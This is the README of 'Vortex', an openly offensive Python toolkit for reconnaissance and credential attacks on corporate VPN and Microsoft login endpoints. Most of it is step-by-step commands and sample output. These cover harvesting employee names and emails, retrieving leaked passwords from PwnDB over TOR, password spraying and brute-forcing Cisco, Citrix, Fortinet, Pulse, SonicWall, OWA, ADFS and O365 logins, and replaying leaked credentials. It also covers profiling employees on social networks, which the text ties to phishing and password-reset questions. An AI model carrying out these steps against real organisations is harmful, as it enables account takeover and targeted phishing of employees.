

# Vortex

VPN Overall Reconnaissance, Testing, Enumeration and Exploitation Toolkit

## Overview

A very simple Python framework, inspired by [SprayingToolkit][1], that tries to 
automate most of the process required to detect, enumerate and attack common O365 
and VPN endpoints (like Cisco, Citrix, Fortinet, Pulse, etc...).

### Why I developed it

Make the VPN spraying phase much quicker and easier. Also, due to
its flexibility, this tool can be added to an existing OSINT 
workflow pretty easily.

### What the tool can do for you

Vortex mainly provide assistance with performing the following tasks:

- User Search and Collection
  - LinkedIn
  - Google
  - PwnDB
- Password Leaks
  - PwnDB
- Main Domain Identification
  - OWA
  - S4B/Lynk
  - ADFS
- Subdomain Search
  - Enumeration
  - Bruteforce
- VPN Endpoint Detection
- Password Spraying/Guessing attacks
  - O365
  - Lynk/S4B
  - ADFS
  - IMAP
  - VPNs
    - Cisco
    - Citrix
    - FortiNet
    - Pulse Secure
    - SonicWall
- Search profiles on Social Networks
  - Instagram
  - Facebook
  - Twitter
  - TikTok
  - Onlyfans

## Installation

Install the pre-requisites with pip3 as follows:

```
sudo -H pip3 install -r requirements.txt
```

### Install with Virtualenv

Otherwise, you can install the pre-requisites using a virtual environment:

```
virtualenv venv
venv\Scripts\activate
pip install -r requirements.txt
```

## Usage

Using the tool is pretty straight forward, but there is a workflow to respect. The tool
uses as SQLite database to store information about the current attack.

### Workspace

The workspace represents the database file used by the tool. The name should be just a 
simple name to label the current attack, project or target.

To each workspace is assigned one SQLite database. When you specify a workspace name,
such as:

```
python manage.py -w workspace1
```

What you're actually saying is "I want to operate on the `workspace1.db` file".

#### Workspace Initialisation

In order to work properly, Vortex needs to initialise the DB with the correct schemas.
To do that, the only thing to do is executing the command:

```
python manage.py -w workspace1 db -c init
```

If a user tries to skip this phase, Vortex will just print to screen the correct command
to launch first.

```
[-] Workspace not initialized. Please initialise it using:
    python manage.py -w workspace1 db -c init
```

Instead, when running the same command against an existing, initialised DB, Vortex
will ask for confirmation before overwrite the DB file:

```
[-] The DB file exists and it was initialised, overwrite?
 [y|n] $> y
```

### Actions and commands

Vortex works with one positional argument, the 'Action', and other keyed values.

The most important among them is the command argument (`-c cmd`). In combination with
the action value, the command define what Vortex should do. 

It is possible to see the list of supported actions from the Help:

```
python manage.py -h

Vortex: VPN Overall Reconnaissance, Enumeration and eXploitation

positional arguments:
  {db,domain,import,office,profile,search,tor,validate,vpn}
                        Action to execute

optional arguments:
  -h, --help            show this help message and exit
  -w WORKSPACE, --workspace WORKSPACE
                        Workspace to use
  -c COMMAND, --command COMMAND
                        Command for the action
  -D DOMAIN, --domain DOMAIN
                        Domain under attack
  -C COMPANY, --company COMPANY
                        Company under attack
  -l LOCATION, --location LOCATION
                        Location of the company under attack (IE, UK, US, ...)
  -u URL, --url URL     VPN Endpoint Origin (schema://domain:port)
  -t ENDPOINT_TYPE, --endpoint-type ENDPOINT_TYPE
                        Target Endpoint Type
  -U USER, --user USER  User name
  -E EMAIL, --email EMAIL
                        User email
  -N NAME, --name NAME  User full name
  -R ROLE, --role ROLE  User job
  -s SQL, --sql SQL     SQL statement
  -O EXPORT_FILE, --export-file EXPORT_FILE
                        Export file
  -Q QUOTES, --quotes QUOTES
                        Produce an Excel safe CSV
  -nh, --no-headers     Remove CSV headers
  -k KEYWORDS, --keywords KEYWORDS
                        Search keywords
  -P PASSWORDS_FILE, --passwords-file PASSWORDS_FILE
                        Password file for spraying
  -L, --leaks           Use leaks for spraying
  -I IMPORT_FILE, --import-file IMPORT_FILE
                        Import file
```

#### Dynamic argument inputting

As observable from the help, the list of supported commands per action is not specified
anywhere. This is because is not necessary to specify a command directly.
Indeed, if a command is not specified, Vortex will ask the user to select one 
among the commands available for the specified action.

```
python manage.py -w workspace1 db

   ,d#####F^      ,yy############yy       ^9#######,
  ,######"      y###################by      ^9######,
  ######^     y#####F""       ^"9######y      "######]
 d#####^    ,#####" by klezVirus ^9#####,     ^######,
,#####]    ,####F    yy#######y,    ^9####b     ^######
[#####     ####F   ,###F""'"9####,    9####]     9#####
#####F    [####   ,##F^  yy   "###b    9####,    ^#####]
#####]    [###]   ###  dF""#b  ^###]   ^####]     #####]
9####b    [####   9##, 9bd [#]  [##b    #####     [#####
[#####     ####,   9##y, ,y##^  d##F    #####     [####]
 #####b    ^####y   ^"#####"   d###^   ,####]     d#####
 [#####,    ^####by          ,d###^    d####^     #####F
  9#####y     "#####byyyyyyd####F^    d####F     [#####9
   9#####b,     ""############"^    ,d####F     ,######
    ^######b,       ""'""'"^      ,d#####F      d#####F

[*] Select a command:
0 : init
1 : sql
2 : add-endpoint
3 : add-user
4 : drop-user
5 : truncate-table
6 : export
 $>
```

The same applies for argument needed by a specific routine. If an argument is 
difficult to be inputted at runtime, Vortex will kindly remind the user that 
the parameter is required. Otherwise, Vortex will guide the user into selecting
or inputting the necessary arguments.

For example, if a user wanted to export a specific table or even a column, the only required thing 
would be to launch the export command, as observable from the image, below:


This kind of behaviour makes Vortex really easy to use.

### General Workflow

Vortex has been designed to adhere to a specific operation workflow, summarized in the below
schema:



### Operations

#### Collect users

Collect valid users for a specific target can be done using three different sources:

* LinkedIn

This source has been removed for infringement of LinkedIn user policies. 
You can still operate on LinkedIn using [GoMapEnum](https://github.com/nodauf/GoMapEnum), 
and then import the email addresses using the `import` command.

Again, please be aware that using this functionality is a breach of the LinkedIn
user agreement, as observable at point [8.2](https://www.linkedin.com/legal/user-agreement#dos) 
of the LinkedIn user agreement:

> You agree that you will not: [...]
> 2. Develop, support or use software, devices, scripts, robots or any other means or processes (including crawlers, browser plugins and add-ons or any other technology) to scrape the Services or otherwise copy profiles and other data from the Services;

* CrossLinked

To partially replace the above functionality, the tool embeds an adapted version of
[CrossLinked](https://github.com/m8r0wn/CrossLinked). This tool will try to detect employees of a company using Google and Bing.
It's certainly not the same as directly searching on LinkedIn, but it's
pretty useful.

In order to operate correctly, the tool will ask the user which format should be used
for usernames (i.e. john.doe, j.doe or d.john) and which is the standard domain 
used by the target domain.

```
python manage.py -w workspace1 search -c crosslinked -D evilcorp.com -C "Evil Corporation"

   ,d#####F^      ,yy############yy       ^9#######,
  ,######"      y###################by      ^9######,
  ######^     y#####F""       ^"9######y      "######]
 d#####^    ,#####" by klezVirus ^9#####,     ^######,
,#####]    ,####F    yy#######y,    ^9####b     ^######
[#####     ####F   ,###F""'"9####,    9####]     9#####
#####F    [####   ,##F^  yy   "###b    9####,    ^#####]
#####]    [###]   ###  dF""#b  ^###]   ^####]     #####]
9####b    [####   9##, 9bd [#]  [##b    #####     [#####
[#####     ####,   9##y, ,y##^  d##F    #####     [####]
 #####b    ^####y   ^"#####"   d###^   ,####]     d#####
 [#####,    ^####by          ,d###^    d####^     #####F
  9#####y     "#####byyyyyyd####F^    d####F     [#####9
   9#####b,     ""############"^    ,d####F     ,######
    ^######b,       ""'""'"^      ,d#####F      d#####F

[+] Select a format for usernames
  0: firstlast
  1: lastfirst
  2: first.last
  3: last.first
  4: last.f
  5: flast
  6: lfirst
  7: f.last
  8: l.first
  9: first
  10: last
  $> 2
[*] Starting search on Google and Bing with CrossLinked
  [>] Searching google for valid employee names at "Evil Corporation"
  [>] Searching bing for valid employee names at "Evil Corporation"
  [>] Found 133 LinkedIn accounts!
[*] Updating DB ...
[+] Done!
```

* Google

This source is operated using a stripped, modified version of [theHarvester]().
The tool will try to extract names/e-mails from Google (Passive Gathering) using Google
Dorks, and from the company website (Active Gathering). 

```
python manage.py -w workspace1 search -c google -D evilcorp.com

[*] Starting passive/active search on Google
[*] (PASSIVE) Searching for emails NOT within the domain's site: evilcorp.com -site:evilcorp.com
[*] (ACTIVE) Searching for emails within the domain's sites: evilcorp.com
[+] Scraping any emails from: https://evilcorp.com
[+] Scraping any emails from: https://www.facebook.com/EvilCorp/
...

[+] 2 unique emails found:
---------------------------
elliot.alderson@evilcorp.com
tyrell.wellick@evilcorp.com
  [>] Found 2 mail 
[*] Updating DB ...
[+] Done!
```

* PwnDB

This source is operated using a ported version of the one implemented in [sn0int](https://github.com/kpcyrd/sn0int).

Note that this functionality requires to be connected to the TOR network. 

##### Start TOR

```
python manage.py -w workspace1 tor -c start

[*] Starting TOR Browser, click on connect
```
##### Enumerate on on PwnDB

```
python manage.py -w workspace1 search -c pwndb -D evilcorp.com

[*] Starting search on PwnDB
  [>] Found 493 leaked accounts!
[*] Updating DB ...
[+] Done!
```

##### Stop TOR
```
python manage.py -w workspace1 tor -c stop

[*] Stopping TOR browser
```

#### Collect endpoints

Vortex uses mainly two macro-categories for endpoints: VPN and Microsoft (Office) endpoints.
A target can be added both as an Office or VPN endpoint, and Vortex will try and validate the 
endpoint as an Office, or VPN endpoint, respectively, using a range of validators.

##### Add an office endpoint

Let's make it clear with an example. The user needs to attack the target `evilcorp.com`,
and want to check whether the domain is an OWA, Lync, ADFS, or O365 target.

```
python manage.py -w workspace1 office -c add -D evilcorp.com

[#] OWA domain appears to be hosted internally
[+] evilcorp.com is a valid OWA target!
[-] evilcorp.com does not seem a valid LYNK target
[-] evilcorp.com does not seem a valid ADFS target
[-] evilcorp.com does not seem a valid IMAP target
[+] evilcorp.com is a valid O365 target!
```

##### Search subdomains for VPN endpoints

For VPN endpoints, the user can perform a subdomain search in order to find hosts running VPN Web Logins,
like this:

```
python manage.py -w workspace1 domain -c enum -D evilcorp.com

   ,d#####F^      ,yy############yy       ^9#######,
  ,######"      y###################by      ^9######,
  ######^     y#####F""       ^"9######y      "######]
 d#####^    ,#####" by klezVirus ^9#####,     ^######,
,#####]    ,####F    yy#######y,    ^9####b     ^######
[#####     ####F   ,###F""'"9####,    9####]     9#####
#####F    [####   ,##F^  yy   "###b    9####,    ^#####]
#####]    [###]   ###  dF""#b  ^###]   ^####]     #####]
9####b    [####   9##, 9bd [#]  [##b    #####     [#####
[#####     ####,   9##y, ,y##^  d##F    #####     [####]
 #####b    ^####y   ^"#####"   d###^   ,####]     d#####
 [#####,    ^####by          ,d###^    d####^     #####F
  9#####y     "#####byyyyyyd####F^    d####F     [#####9
   9#####b,     ""############"^    ,d####F     ,######
    ^######b,       ""'""'"^      ,d#####F      d#####F

[*] Starting subdomain passive enumeration
  [>] Found 10 subdomains
  [$] Elapsed time: 18.360117197036743
[*] Enumerating potential VPN endpoints (HTTPS on 443, 10443)
  [>] Found 1 hosts running an SSL webserver
  [$] Elapsed time: 18.916626691818237
[*] Trying to detect hosts with VPN web-login
  [>] Found 1 hosts with a VPN web login
  [$] Elapsed time: 32.919618368148804
[*] Updating DB...
  [+] Adding vpn.evilcorp.com:443 as a pulse target
  [>] Elapsed time: 18.920615434646606
[+] Done
```

##### Manually add a VPN endpoint

To manually add VPN endpoints, of course, specifying the top level domain would probably not be enough.
The correct way would be to specify a specific subdomain along with the specific port the VPN Web Server is 
running on.

```
python manage.py -w workspace1 vpn -c add -D vpn.evilcorp.com:443

[+] vpn.evilcorp.com:443 is a pulse target!
```

#### Perform a password spray or bruteforce attack against OWA, ADFS, LYNC, or O365

To perform a password spray or even bruteforce attack, the only required 
resource is a password list in the form of a text file, with one password 
per line.

```
python manage.py -w workspace1 office -c attack -P passwords.txt

   ,d#####F^      ,yy############yy       ^9#######,
  ,######"      y###################by      ^9######,
  ######^     y#####F""       ^"9######y      "######]
 d#####^    ,#####" by klezVirus ^9#####,     ^######,
,#####]    ,####F    yy#######y,    ^9####b     ^######
[#####     ####F   ,###F""'"9####,    9####]     9#####
#####F    [####   ,##F^  yy   "###b    9####,    ^#####]
#####]    [###]   ###  dF""#b  ^###]   ^####]     #####]
9####b    [####   9##, 9bd [#]  [##b    #####     [#####
[#####     ####,   9##y, ,y##^  d##F    #####     [####]
 #####b    ^####y   ^"#####"   d###^   ,####]     d#####
 [#####,    ^####by          ,d###^    d####^     #####F
  9#####y     "#####byyyyyyd####F^    d####F     [#####9
   9#####b,     ""############"^    ,d####F     ,######
    ^######b,       ""'""'"^      ,d#####F      d#####F

[*] Choose an endpoint type to attack, or all to attack any supported endpoint
0 : owa
1 : lync
2 : imap
3 : adfs
4 : o365
5 : all
 $> 4
[*] Running O365Enumerator
  [-] elliot.alderson@evilcorp.com:MrRobot2021! is not valid.
  [+] tyrell.wellick@evilcorp.com:Joanna2021! is valid!
  [>] Found 1 valid logins
[*] Updating Db...
[+] Done
```

#### Perform a password spray or bruteforce attack against VPN endpoints

To perform a password spray or even bruteforce attack, the only required 
resource is a password list in the form of a text file, with one password 
per line.

```
python manage.py -w workspace1 vpn -c attack -P passwords.txt

   ,d#####F^      ,yy############yy       ^9#######,
  ,######"      y###################by      ^9######,
  ######^     y#####F""       ^"9######y      "######]
 d#####^    ,#####" by klezVirus ^9#####,     ^######,
,#####]    ,####F    yy#######y,    ^9####b     ^######
[#####     ####F   ,###F""'"9####,    9####]     9#####
#####F    [####   ,##F^  yy   "###b    9####,    ^#####]
#####]    [###]   ###  dF""#b  ^###]   ^####]     #####]
9####b    [####   9##, 9bd [#]  [##b    #####     [#####
[#####     ####,   9##y, ,y##^  d##F    #####     [####]
 #####b    ^####y   ^"#####"   d###^   ,####]     d#####
 [#####,    ^####by          ,d###^    d####^     #####F
  9#####y     "#####byyyyyyd####F^    d####F     [#####9
   9#####b,     ""############"^    ,d####F     ,######
    ^######b,       ""'""'"^      ,d#####F      d#####F

[*] Choose an endpoint type to attack, or all to attack any supported endpoint
0 : cisco
1 : citrix
2 : citrixlegacy
3 : fortinet
4 : pulse
5 : sonicwall
6 : all
 $> 6
[*] Attacking vpn.evilcorp.com:443
  [-] elliot.alderson@evilcorp.com:MrRobot2021! is not valid.
  [+] tyrell.wellick@evilcorp.com:Joanna2021! is valid!
  [>] Found 1 valid logins
[*] Updating Db...
[+] Done
```

#### Perform a password spray or bruteforce using leaked credentials

As Vortex keeps track of credentials leaked on PwnDB, a user can select
to test all leaked credentials instead of providing a password file.

However, consider this behaviour is much different to a normal password spray.
In a normal password spraying attack, indeed, a single password is tried against 
all users. In a leaked credentials attack, the leaked credentials is tested against 
the specific user it was leaked with. So, as an example, if Vortex found
the leaks:

```
User                            Leaks
----------------------------    ----------------------------
elliot.alderson@evilcorp.com    ["ISecretlyLoveAngela2020!"]
tom.wellick@evilcorp.com        ["Puppy19!", "MySweetJ111!"]
```

Vortex will operate the following attempts, and just the following:

```
elliot.alderson@evilcorp.com:ISecretlyLoveAngela2020!
tom.wellick@evilcorp.com:Puppy19!
tom.wellick@evilcorp.com:MySweetJ111!
```

To perform this attack, no password file is needed, but it's required to set
the (-L, or --leaks) parameter.

```
python manage.py -w workspace1 vpn -c attack -L

   ,d#####F^      ,yy############yy       ^9#######,
  ,######"      y###################by      ^9######,
  ######^     y#####F""       ^"9######y      "######]
 d#####^    ,#####" by klezVirus ^9#####,     ^######,
,#####]    ,####F    yy#######y,    ^9####b     ^######
[#####     ####F   ,###F""'"9####,    9####]     9#####
#####F    [####   ,##F^  yy   "###b    9####,    ^#####]
#####]    [###]   ###  dF""#b  ^###]   ^####]     #####]
9####b    [####   9##, 9bd [#]  [##b    #####     [#####
[#####     ####,   9##y, ,y##^  d##F    #####     [####]
 #####b    ^####y   ^"#####"   d###^   ,####]     d#####
 [#####,    ^####by          ,d###^    d####^     #####F
  9#####y     "#####byyyyyyd####F^    d####F     [#####9
   9#####b,     ""############"^    ,d####F     ,######
    ^######b,       ""'""'"^      ,d#####F      d#####F

[*] Choose an endpoint type to attack, or all to attack any supported endpoint
0 : cisco
1 : citrix
2 : citrixlegacy
3 : fortinet
4 : pulse
5 : sonicwall
6 : all
 $> 6
[*] Attacking vpn.evilcorp.com:443
  [+] elliot.alderson@evilcorp.com:ISecretlyLoveAngela2020! is valid!
  [-] tyrell.wellick@evilcorp.com:Puppy19! is not valid.
  [-] tyrell.wellick@evilcorp.com:MySweetJ111! is not valid.
  [>] Found 1 valid logins
[*] Updating Db...
[+] Done
```

That's mostly it. Sometimes the tool can ask for more information before performing
an attack, such as selecting the VPN realm/group.

##### Showing results

At any time, you can see valid logins you found using the following command:

```
python manage.py db -w workspace1 -c found-logins
[+] Valid Logins Collected:
  ID  Target                E-Mail                        Password
----  --------------------  ----------------------------  ------------------------
   1  vpn.evilcorp.com:443  tom.wellick@evilcorp.com      Joanna2021!
   2  vpn.evilcorp.com:443  elliot.alderson@evilcorp.com  ISecretlyLoveAngela2020!
[+] Done
```

#### Searching Social Network Profiles

Sometimes, in big engagements, knowing a bit more about our targets helped us in 
breaching their defenses, such as using personal emails or social accounts for phishing,
or also find answers to password resets security questions).

For this reason, I've integrated [Profil3r](https://github.com/Greyjedix/Profil3r). This tool
tries to identify social network accounts potentially related to an individual.  

**IMPORTANT NOTE**: Profil3r tries to locate valid profiles using name mashing. It can't
guarantee the found profiles are really related to the target person. For this reason, the 
profiles are not automatically added to Vortex DB.

Currently, it is possible to operate with Profil3r in two modes:

* single-mode
* multi-mode

The single-mode operates on a set of keywords provided by the user:

```
python manage.py -w workspace1 profile -c single -k elliot -k alderson

   ,d#####F^      ,yy############yy       ^9#######,
  ,######"      y###################by      ^9######,
  ######^     y#####F""       ^"9######y      "######]
 d#####^    ,#####" by klezVirus ^9#####,     ^######,
,#####]    ,####F    yy#######y,    ^9####b     ^######
[#####     ####F   ,###F""'"9####,    9####]     9#####
#####F    [####   ,##F^  yy   "###b    9####,    ^#####]
#####]    [###]   ###  dF""#b  ^###]   ^####]     #####]
9####b    [####   9##, 9bd [#]  [##b    #####     [#####
[#####     ####,   9##y, ,y##^  d##F    #####     [####]
 #####b    ^####y   ^"#####"   d###^   ,####]     d#####
 [#####,    ^####by          ,d###^    d####^     #####F
  9#####y     "#####byyyyyyd####F^    d####F     [#####9
   9#####b,     ""############"^    ,d####F     ,######
    ^######b,       ""'""'"^      ,d#####F      d#####F

[*] Starting single profile search
...
└── FACEBOOK ✔️
   ├──https://facebook.com/elliot
   ├──https://facebook.com/alderson
   ├──https://facebook.com/elliotalderson
   ├──https://facebook.com/aldersonelliot
   ├──https://facebook.com/elliot.alderson
   ├──https://facebook.com/alderson.elliot
...
[+] Done!
```

The multi-mode operates on first and last name of each user in the DB. Any additional keyword passed in multi-mode
is used in combination with users' first and last name. So, as example, you can use additional names or numbers 
to customise the profile search.

```
python manage.py -w workspace1 profile -c multi -k 90

   ,d#####F^      ,yy############yy       ^9#######,
  ,######"      y###################by      ^9######,
  ######^     y#####F""       ^"9######y      "######]
 d#####^    ,#####" by klezVirus ^9#####,     ^######,
,#####]    ,####F    yy#######y,    ^9####b     ^######
[#####     ####F   ,###F""'"9####,    9####]     9#####
#####F    [####   ,##F^  yy   "###b    9####,    ^#####]
#####]    [###]   ###  dF""#b  ^###]   ^####]     #####]
9####b    [####   9##, 9bd [#]  [##b    #####     [#####
[#####     ####,   9##y, ,y##^  d##F    #####     [####]
 #####b    ^####y   ^"#####"   d###^   ,####]     d#####
 [#####,    ^####by          ,d###^    d####^     #####F
  9#####y     "#####byyyyyyd####F^    d####F     [#####9
   9#####b,     ""############"^    ,d####F     ,######
    ^######b,       ""'""'"^      ,d#####F      d#####F

[*] Starting per-user profile search
  [>] Searching profiles for Elliot Alderson. Additional keywords: 90
...
└── TWITTER ✔️
   ├──https://twitter.com/ElliotAlderson
   ├──https://twitter.com/AldersonElliot
   ├──https://twitter.com/Elliot90
   ├──https://twitter.com/90Elliot
   ├──https://twitter.com/Alderson90
...
  [>] Searching profiles for Tom Wellick. Additional keywords: 90
...
└── TWITTER ✔️
   ├──https://twitter.com/Tom
   ├──https://twitter.com/Wellick
   ├──https://twitter.com/90
   ├──https://twitter.com/Tom90
   ├──https://twitter.com/90Tom
...
[+] Done!
```

#### Importing External Data

Vortex offers also support for importing external data related to users or endpoints.
Currently, only plain text files are supported and there is limited support for CSV as well.

The data types which can be imported so far are:

* E-mail addresses
* Usernames
* VPN endpoints (target:port)
* Domains
* ~~Leaks from PwnDB~~ DEPRECATED: just use the search command
* LinkedIn-data extracted with ~~Blues~~

Every data-type is supported in normal text-file format, one element per line.

## Roadmap

New functionalities are coming soon (2022):

* Smart password list generation
* Data extraction and correlation

Please submit bugs, suggestions, or feature requests. 

## Credits

* [byt3bl33d3r](https://twitter.com/byt3bl33d3r): For his amazing work on [SprayingToolkit][1]. which inspired the project
* [nodauf](https://twitter.com/nodauf): For his work on [GoMapEnum](https://github.com/nodauf/GoMapEnum), which gave me other ideas
* [quasart](https://github.com/quasart): The logo was generated with [spiral](https://github.com/quasart/spiral)
* [m8r0wn](https://twitter.com/m8r0wn): For his work on [CrossLinked](https://github.com/m8r0wn/CrossLinked), which is really an awesome tool
* [Greyjedix](https://github.com/Greyjedix/): For his work on [Profil3r](https://github.com/Greyjedix/Profil3r), which is very useful tool in certain circumstances

[1]: https://github.com/byt3bl33d3r/SprayingToolkit